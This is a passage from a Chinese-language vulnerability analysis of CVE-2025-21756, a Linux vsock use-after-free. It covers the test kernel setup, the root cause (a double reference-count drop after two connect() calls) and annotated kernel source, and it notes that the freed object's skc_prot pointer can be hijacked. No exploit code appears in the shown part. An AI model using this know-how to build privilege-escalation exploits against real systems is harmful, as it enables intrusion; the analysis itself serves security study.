









# 【Kernel Exploit】CVE-2025-21756 (Kernel One Gadget) 漏洞分析

## 1. 测试环境

**测试版本**：Linux-6.12.15 [内核镜像地址](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.12.15/01/bzImage)

笔者测试的内核版本是 `Linux alpine 6.12.15 #1 SMP PREEMPT_DYNAMIC Wed Oct 14 22:55:44 CST 2026 x86_64 Linux`。

**编译选项**：开启`CONFIG_IO_URING`、`CONFIG_TMPFS`、`CONFIG_SHMEM`、`CONFIG_SECURITY`、`CONFIG_BINFMT_MISC`、`CONFIG_THREAD_INFO_IN_TASK`、`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`、`CONFIG_KCMP`、`CONFIG_MEMCG`、`CONFIG_CGROUPS`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_RANDOM_KMALLOC_CACHES`、`CONFIG_SHUFFLE_PAGE_ALLOCATOR`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_FUSE_FS`、`CONFIG_USERFAULTFD`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`、`CONFIG_PACKET`、`CONFIG_PACKET_DIAG`、`CONFIG_USER_NS`、`CONFIG_NET_NS`、`CONFIG_NAMESPACES`、`CONFIG_CHECKPOINT_RESTORE`、`CONFIG_IPC_NS`、`CONFIG_VSOCKETS`、`CONFIG_VSOCKETS_DIAG`、`CONFIG_VSOCKETS_LOOPBACK`、`CONFIG_VIRTIO_VSOCKETS`、`CONFIG_VIRTIO_VSOCKETS_COMMON`选项。完整配置参考[(6.12.15).config](https://github.com/BinRacer/pwn4cve/blob/master/kernels/6.12.15/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

## 2. 漏洞背景

### 2-1. 漏洞概述

**CVE-2025-21756** 是 Linux 内核 vsock（Virtual Socket）子系统中的一个释放后重用（Use-After-Free, UAF）漏洞，CVSS v3.1 评分为 7.8（HIGH）。从分类上看，它属于内核对象生命周期管理中的一类经典缺陷：某个错误路径过早地递减了对象的引用计数，使对象在仍被系统其他部分引用的情况下被回收；随后这些悬垂引用被再次访问，便形成 UAF 条件。

该漏洞的具体成因落在 vsock 套接字的 transport 层切换路径上。当套接字从一个 transport 切换到另一个时，`vsock_remove_sock()` 会调用 `vsock_remove_bound()` 尝试移除绑定。然而这个调用没有区分套接字当前是否真的处于已绑定状态，导致挂在 unbound 链表上的套接字也被误判为“已绑定”，进而触发了一次本不该发生的引用计数递减。后续的自动绑定路径再次调用同一函数时，引用计数降至零，对象被释放，而调用栈仍未意识到这一点，继续在同一块内存上执行操作。

vsock 是专为虚拟机与宿主机之间高效通信设计的套接字协议，由 VMware 最初提出并集成到 Linux 内核中，允许虚拟机内的应用程序直接与宿主机或其他虚拟机通信，无需经过传统网络协议栈。相较于 virtio-serial 或 9p 等方案，vsock 在协议栈中直接提供了面向连接的语义与零拷贝路径，因而被广泛用于容器运行时（如 Kata Containers）、云主机代理以及各类虚拟化场景中的控制通道。随着云原生架构和轻量级虚拟机技术的普及，vsock 在基础设施中的地位不断提升，其代码路径上的缺陷也随之具备了更高的现实意义。

从触发路径来看，该漏洞完全通过标准 socket 系统调用即可抵达，不需要任何特殊权限或特权操作。这意味着在多租户环境、容器场景或共享宿主机的虚拟机中，一个普通本地用户就有可能触发该漏洞，进而实现权限提升。需要指出的是，vsock 子系统在通用发行版中并非默认启用，其暴露面取决于内核编译时是否开启了 `CONFIG_VSOCKETS` 及相关选项。评估实际影响时需要结合目标系统的内核配置进行判断——在启用了 vsock 的环境中，该漏洞路径可达；而在未启用该子系统的环境中，触发路径本身无法建立。

从对象布局的角度看，被释放的 `struct vsock_sock` 分配于专用的 `AF_VSOCK` slab 缓存中，其内嵌的 `struct sock` 结构在偏移 0x28 处持有 `skc_prot` 字段。`skc_prot` 是一个指向 `struct proto` 的指针，而 `struct proto` 是一张函数指针表，涵盖套接字生命周期中各阶段的回调。一旦该对象被释放并重新占据，`skc_prot` 字段就有可能被覆盖，进而改变内核在后续 close() 路径上的函数分发行为。同时，由于 slab 分配器的 per-CPU 特性和页级别回收策略，对象的释放与重用还牵涉到缓存布局和对齐细节，这些细节构成了漏洞分析中不可忽略的技术背景。

### 2-2. 漏洞根因

**CVE-2025-21756** 的根因在于 `vsock_remove_sock()` 在 transport 重分配路径上无条件调用 `vsock_remove_bound()`，而后者的守卫 `__vsock_in_bound_table()` 无法区分套接字当前挂在 bound 链表还是 unbound 链表，导致引用计数被错误递减两次。触发这条错误链需要**两次 `connect()` 调用**：第一次让套接字停留在未绑定状态并绑定 loopback transport，第二次触发 transport 重分配并进入错误释放路径。

#### 2-2-1. 前置状态

##### 2-2-1-1. Socket 创建

`socket(AF_VSOCK, SOCK_STREAM, 0)` 最终进入 `vsock_create()`：

```c
/*
 * vsock_create - AF_VSOCK 协议族的 socket() 创建钩子
 * @net:       网络命名空间
 * @sock:      正在创建的 struct socket
 * @protocol:  用户态 protocol 参数
 * @kern:      内核内部 socket 标志
 *
 * 按 socket 类型绑定相应的 proto_ops 表，通过 __vsock_create()
 * 分配底层 struct sock 并初始化 vsock 专有字段，最后把新套接字
 * 挂到 unbound 链表上。
 */
static int vsock_create(struct net *net, struct socket *sock,
			int protocol, int kern)
{
	...
	switch (sock->type) {
	case SOCK_STREAM:
		sock->ops = &vsock_stream_ops;
		break;
	...
	}

	sk = __vsock_create(net, sock, NULL, GFP_KERNEL, 0, kern);
	if (!sk)
		return -ENOMEM;

	...
	/* 将新套接字挂到 unbound 链表，引用计数在此从 1 增至 2 */
	vsock_insert_unbound(vsk);

	return 0;
}
```

`__vsock_create()` 通过 `sk_alloc()` → `sk_prot_alloc()` 从专用的 `AF_VSOCK` slab 缓存中分配对象，再由 `sock_init_data()` → `sock_init_data_uid()` 完成字段初始化：

```c
/*
 * __vsock_create - 分配并初始化 struct vsock_sock
 * @net:       网络命名空间
 * @sock:      上层 struct socket
 * @parent:    父套接字，用于 accept 派生（此处为 NULL）
 * @priority:  gfp 标志
 * @type:      套接字类型（sock 为 NULL 时使用）
 * @kern:      内核内部 socket 标志
 */
static struct sock *__vsock_create(struct net *net,
				   struct socket *sock,
				   struct sock *parent,
				   gfp_t priority,
				   unsigned short type,
				   int kern)
{
	...
	sk = sk_alloc(net, AF_VSOCK, priority, &vsock_proto, kern);
	if (!sk)
		return NULL;

	sock_init_data(sock, sk);
	...
	/* vsock 专有字段初始化：地址、链表头、延迟工作等 */
	vsock_addr_init(&vsk->local_addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);
	vsock_addr_init(&vsk->remote_addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);
	sk->sk_destruct = vsock_sk_destruct;
	INIT_LIST_HEAD(&vsk->bound_table);
	...
	return sk;
}

/*
 * sk_alloc - 通用 socket 分配入口
 * @net:       网络命名空间
 * @family:    地址族（AF_VSOCK）
 * @priority:  gfp 标志
 * @prot:      proto 描述符，其 ->slab 字段决定使用哪个 kmem_cache
 * @kern:      内核内部 socket 标志
 */
struct sock *sk_alloc(struct net *net, int family, gfp_t priority,
		      struct proto *prot, int kern)
{
	...
	sk = sk_prot_alloc(prot, priority | __GFP_ZERO, family);
	if (sk) {
		sk->sk_family = family;
		sk->sk_prot = sk->sk_prot_creator = prot;
		...
		/* 写侧引用计数独立于 sk_refcnt，后续 sk_free 会用到 */
		refcount_set(&sk->sk_wmem_alloc, 1);
		...
	}

	return sk;
}

/*
 * sk_prot_alloc - 从协议 slab 中分配 struct sock
 * @prot:      proto 描述符，prot->slab 为专用 kmem_cache
 * @priority:  gfp 标志
 * @family:    地址族，传给 security_sk_alloc()
 *
 * AF_VSOCK 的 prot->slab 指向模块初始化时创建的 "AF_VSOCK"
 * kmem_cache——这正是 cross-cache 能够成立的前提。
 */
static struct sock *sk_prot_alloc(struct proto *prot, gfp_t priority,
		int family)
{
	...
	slab = prot->slab;
	if (slab != NULL) {
		sk = kmem_cache_alloc(slab, priority & ~__GFP_ZERO);
		...
	} else
		sk = kmalloc(prot->obj_size, priority);
	...
}

/*
 * sock_init_data_uid - 初始化通用 sock 字段
 * @sock:  上层 struct socket
 * @sk:    正在初始化的 struct sock
 * @uid:   属主 uid
 *
 * 设置 sk_state 为 TCP_CLOSE，安装默认回调。末尾把 sk_refcnt
 * 初始化为 1，代表 socket() 返回的文件描述符所持有的那份引用。
 *
 * sk_refcnt 与 sk_wmem_alloc 是两套独立的引用计数：前者决定
 * 对象何时可以释放，后者追踪写侧缓冲区的引用。
 */
void sock_init_data_uid(struct socket *sock, struct sock *sk, kuid_t uid)
{
	...
	sk->sk_state = TCP_CLOSE;
	...
	sk->sk_state_change = sock_def_wakeup;
	sk->sk_data_ready = sock_def_readable;
	sk->sk_write_space = sock_def_write_space;
	sk->sk_error_report = sock_def_error_report;
	sk->sk_destruct = sock_def_destruct;
	...
	smp_wmb();
	/* 引用计数起点：1 表示 fd 所持有的那一份引用 */
	refcount_set(&sk->sk_refcnt, 1);
	atomic_set(&sk->sk_drops, 0);
}
```

`vsock_create()` 最后调用 `vsock_insert_unbound()` 把套接字挂入 unbound 链表：

```c
/*
 * vsock_insert_unbound - 把新建套接字排队到 unbound 链表
 * @vsk:  待入链的 vsock_sock
 *
 * 由 vsock_create() 在分配和初始化完成后立即调用，使套接字
 * 处于"已创建但尚未绑定"的状态。
 */
static void vsock_insert_unbound(struct vsock_sock *vsk)
{
	spin_lock_bh(&vsock_table_lock);
	__vsock_insert_bound(vsock_unbound_sockets, vsk);
	spin_unlock_bh(&vsock_table_lock);
}

/*
 * __vsock_insert_bound - 把 vsock_sock 挂到指定链表并取一份引用
 * @list:  目标链表头（bound hash bucket 或 unbound 链表）
 * @vsk:   待挂载的 vsock_sock
 *
 * bound hash table 与 unbound 链表共用此函数，是 AF_UNIX 沿用
 * 的空间优化：把 unbound 链表作为 hash table 的额外一项挂载。
 * 每个套接字内嵌的 bound_table 字段同时参与两条链表，因此无
 * 法从字段本身判断套接字当前位于哪条链表。
 */
static void __vsock_insert_bound(struct list_head *list,
				 struct vsock_sock *vsk)
{
